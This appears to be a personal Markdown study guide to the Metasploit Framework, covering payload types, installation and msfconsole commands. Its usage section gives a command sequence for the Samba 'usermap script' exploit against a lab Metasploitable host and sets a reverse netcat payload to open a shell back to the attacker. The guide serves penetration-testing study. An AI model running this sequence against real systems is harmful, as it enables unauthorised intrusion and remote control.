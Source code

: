 # Metasploit Framework - Setup and Documentations

```
Documentations on the scripts in Metasploit Framework
```

## Information

- Package Name :
    + Debian | apt : metasploit-framework
    + Archlinux | pacman : metasploit

### Payloads in Metasploit
- 3 Types of Payload
    - Singles : Payloads that are self-contained and standalone
        + Singles do not depend on other programs to run
    - Stagers : Stagers are small programs that *establish and main communications* between the attacker and victim
        + Usually to enable downloading of stages
        - Examples
            + Creating a backdoor
    - Stages : Payload components that are downloaded by the stagers 
        + usually Big
  
- How to understand payload descriptions in Metasploit
    + A single payload : windows/shell_bind_tcp
    - Stager-stages : windows/shell/bind_tcp
        - Where
            + bind_tcp : Stager
            + shell : stage
        - Summary
            + Map stager under the stage
            + *windows/stage/stager*

## Setup
### Pre-Requisites

### Dependencies
+ bundler
+ curl
+ gcc-mingw-w64-i686-win32
+ gcc-mingw-w64-x86-64-win32
+ git
+ john
+ libc6
+ libffi8
+ libgcc-s1
+ libpcap0.8
+ libpq5
+ libruby3.0
+ libsqlite3-0
+ libssl3
+ libstdc++6
+ nasm
+ nmap
+ openssl
+ oracle-instantclient-basic
+ postgresql
+ python3
+ rake
+ ruby
+ ruby-json
+ wget

### Installing
- Using package manager
    - Debian-based (apt)
        ```console
        sudo apt install metasploit-framework
        ```
    - Arch-based (pacman)
        ```console
        sudo pacman -S metasploit
        ```
   
## Documentation
### Scripts/Files
+ msfconsole    : Metasploit Framework's Console Shell
+ msfvenom      : MSF Backdoor utility

### Synopsis/Syntax

- To startup the framework
    ```console
    $> msfconsole [{options} [arguments]...]
    ```
    
### Parameters

### Commands
#### msfconsole
+ search [keyword]              : Look for possible exploits containing the keyword
    ```console
    msf5 > search ssh_version
    ```
+ use [path-to-exploit-script]  : Use a specific expoit, payload or auxiliary
- show [keyword]                : Displays information for the specified keyword
    - Examples
        + show options          : Display options for the current modules
        + show payloads         : Displays all payloads registered
- set [option] [value]          : Configure *option* to have a value of *value*
    - Options
        + PAYLOAD [payload-path]    : Set a payload
        + LHOST [attacker-IP]       : Sets the Local Host; Normally used to create a reverse connection to your machine after the attack succeeds
        + RHOST [target-IP]         : Sets the Remote/Target Host; Refers to the IP address of the target host
+ run [auxiliary-module]        : Execute *auxiliary* mode
+ exploit                       : Start *exploit* modules/execution process
+ back                          : Go back to the original console prompt
+ clear                         : Clear the screen
+ exit                          : Exit from metasploit
+ help                          : Show instructionsl

### Usage

- Information Gathering using Auxiliary Module
    - Launch msfconsole
        ```console
        $> msfconsole
        ```

    - Search ssh_version in msfconsole
        + *search ssh_version*
            ```console
            msf5> search ssh_version
            ```
    - Find a module name returned by Metasploit
        + auxiliary/scanner/ssh/ssh_version

    - Use auxiliary module
        - run *use auxiliary/scanner/ssh/ssh_version*
            + Your mode will be changed to auxiliary mode
            ```console
            msf5 > use auxiliary/scanner/ssh/ssh_version
            ```
            
    - Show options to execute
        + *show options*
            ```console
            msf5 > show options
            ```

    - Set RHOSTS as the target server's IP address (Metasploitable IP)
        + command : *set RHOSTS [target-IP]
        ```console
        msf5 auxiliary(scanner/ssh/ssh_version) > set RHOSTS 10.0.2.5
        ```
        
    - Execute the auxiliary scanner
        + *run*
        ```console
        msf5 auxiliary(scanner/ssh/ssh_version) > run
        ```

- Samba "usermap script" exploit
    - Sequence of commands
        ```console
        $> msfconsole
        
        msf5 > use exploit/multi/samba/usermap_script
        msf5 > options
        msf5 > set RHOST 10.0.2.5
        msf5 > exploit
        ```
    - Different Payloads
        ```console
        msf5 > show payloads
        ```
    - Reverse Netcat
        + Ask the server to connect to us (Kali)
            ```console
            msf5 > set PAYLOAD cmd/unix/reverse_netcat
            msf5 > show options
            msf5 > set LHOST 10.0.2.4
            msf5 > exploit
            ```

### Terminologies
+ LHOST [attacker-IP]   : Sets the Local Host; Normally used to create a reverse connection to your machine after the attack succeeds
+ RHOST [target-IP]     : Sets the Remote/Target Host; Refers to the IP address of the target host    
+ Attack Vectors        : Methods of attacks
+ Attack Surface Area 	: Amount of loopholes/vulnerabilities/penetration methods in a program


